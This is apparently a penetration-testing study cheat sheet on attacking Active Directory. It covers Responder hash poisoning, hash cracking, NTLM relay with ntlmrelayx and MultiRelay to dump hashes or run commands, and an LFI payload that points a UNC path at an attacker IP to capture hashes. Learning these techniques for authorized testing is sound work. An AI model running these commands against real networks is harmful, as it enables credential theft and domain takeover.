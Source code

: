 # Active Directory  
AD Overview and tools.   
## Contents 
- [Active Directory](#active-directory)
  * [Contents](#contents)
  * [Active Directory Overview](#active-directory-overview)
  * [My AD Cheatsheets](#my-ad-cheatsheets)
  * [Other Cheat Sheets](#other-cheat-sheets)
  * [References](#references)
    + [Important Files to Check on the DC](#important-files-to-check-on-the-dc)
  * [Tools](#tools)
  * [General Tools](#general-tools)
  * [Responder](#responder)   
  
## Active Directory Overview 
To gain control over a domain:  
Compromise member of Domain Admin group.   
Compromise domain controller -> can modify all domain-joined computers or execute applications on them. 

AD: depends on DNS server, typical DC hosts DNS server that is authoritative for a given domain.    
Account types: domain admins, service accounts (can be domain admins), local admins (can't access the DC), domain users.     
Authentication mechanisms: Kerberos (uses ticket granting tickets and services to authenticate users) or NTLM (traditional Windows authentication).     
Kerberos: default authentication service that uses ticket-granting tickets and service tickets to authenticate users and give users access to other resources across the domain. Intended to be more secure than NTLM (uses 3rd party ticket authorization and stronger encryption).      
[PayloadAllTheThings - Most Common Paths to AD Compromise](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)       
Typical AD pen test:
- Exploit host on domain and gain access  as a domain user 
- Enumerate domain users and groups.  
- Privilege escalate or move laterally. 
- Get Domain Admin or Service Account access and onto the domain controller.     

Common Ways to Get AD Creds:    
- NTLM Authenticated Services  
- LDAP Bind Credentials    
- Authentication Relays      
- Microsoft Deployment Toolkit   
- Configuration Files       

## My AD Cheatsheets
[Attacks](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/Attacks.md)        
[Lateral Movement](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/LateralMovement.md)   
## Other Cheat Sheets
[AD Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)     
[AD Lateral Movement and Persistence Cheatsheet](https://bhanusnotes.blogspot.com/2020/12/ad-pentest-lateral-movement-persistance.html)  
[AD Cheat sheet](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)   
[Pentesting AD CheatSheet](https://i.ibb.co/TKYNCNP/Pentest-ad.png)  
[Integratio IT Cheat Sheet](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet)  

## References      
[WADComs](https://wadcoms.github.io/)    
    
### Important Files to Check on the DC
    %SYSTEMROOT%\System32\ntds.dit             #AD database with user password hashes   
    %SYSTEMROOT%\NTDS\ntds.dit                 #AD backup

## Tools   
C2 Frameworks:
[PowerShell Empire](https://github.com/BC-SECURITY/Empire), Covenant    
[evil-winrm](https://github.com/nubix/evil-winrm): access Windows RM, TCP port 5985 or 5986 open.   
Responder (Spoofing is not allowed in the labs or on the exam)   
Crackmapexec  
[BloodHound](https://github.com/BloodHoundAD/BloodHound), [SharpHound](https://github.com/BloodHoundAD/SharpHound) 
Rubeus   
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 )   
[Mimikatz](https://github.com/gentilkiwi/mimikatz), [Mimikatz Cheatsheet](https://offsec.red/mimikatz-cheat-sheet/)      

## General Tools 
[Impacket](https://github.com/SecureAuthCorp/impacket): collection on Python classes for working with network protocols.       
Can be finicky - you may need to uninstall / reinstall when updating if the default Kali Impacket library is being used.    

    #if not properly installed 
    apt install impacket-scripts  
    /usr/share/doc/python3-impacket/examples  
    
    #manual install (if inside a lab network - will also work with most other Python packages)    
    upload Impacket files to target and run install script    
    sudo python3 setup.py install    
    
[ADSC-Pwn](https://github.com/bats3c/ADCSPwn)   

## Responder 
Not allowed on the OSCP exam, but a common pen testing tool.                
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Responder Usage:   
 Config file: edit responder.conf to disable SMB / HTTP servers, change RespondTo arguement to target a specific host     

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
     sudo responder.py -I eth0 -A    #analyze / listen mode, no active poisoning    
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protocol hash type and IP captured from.      

    username::domain:ServerChallenge:NTproofstring:modifiedntlmv2response   #NTLMv2 Responder capture format       
### Crack Hashes from Responder     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   

### NTLM Relay Attack       
Use NTLMRelay or MultiRelay to relay the credentials to any SMB server which has SMB signing disabled (can't relay the creds back to the source computer unless you are relaying them to a different service). Windows workstations have SMB signing disabled by default.          
[byt3bl33d3r Guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)    
Recon: RunFinger.py or Crackmapexec to identify hosts, OS and SMB info. Check if SMB signing is not enabled and you can perform a relay attack:                    
 
    /opt/Responder/tools $ python3 RunFinger.py -i 172.16.1.1/24       
    crackmapexec smb --gen-relay-list smb_targets.txt 192.168.1.0/24

[NTLMRelay - Impacket Script](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
You might need to disable the SMB or HTTP servers used by Responder to avoid conflicts.    

    sudo python3 ntlmrelayx.py -tf targets -smb2support     
    sudo python3 ntlmrelayx.py -socks -smb2support -tf smb_targets.txt     
    
[MultiRelay - Built into the Responder Toolkit](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)     
Requirements:     
[Pycryptdome](https://github.com/Legrandin/pycryptodome/)    

    sudo apt-get -y install python3-pip gcc-mingw-w64-x86-64 python-crypto screen      
    sudo pip3 install pycryptodomex
    cd Responder/tools/
    x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv    
    x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode     

Usage:     

    /opt/Responder/tools $ python3 MultiRelay.py -t 172.16.1.5 -u ALL -d    #Relay auth requests for all users, dump local account hashes   
    /opt/Responder/tools $ python3 MultiRelay.py -t 10.10.10.10 -c "whoami"   #exec a command    
    #can spawn a Meterpreter shell using exploit/multi/script/web_delivery using a PowerShell IEX command        
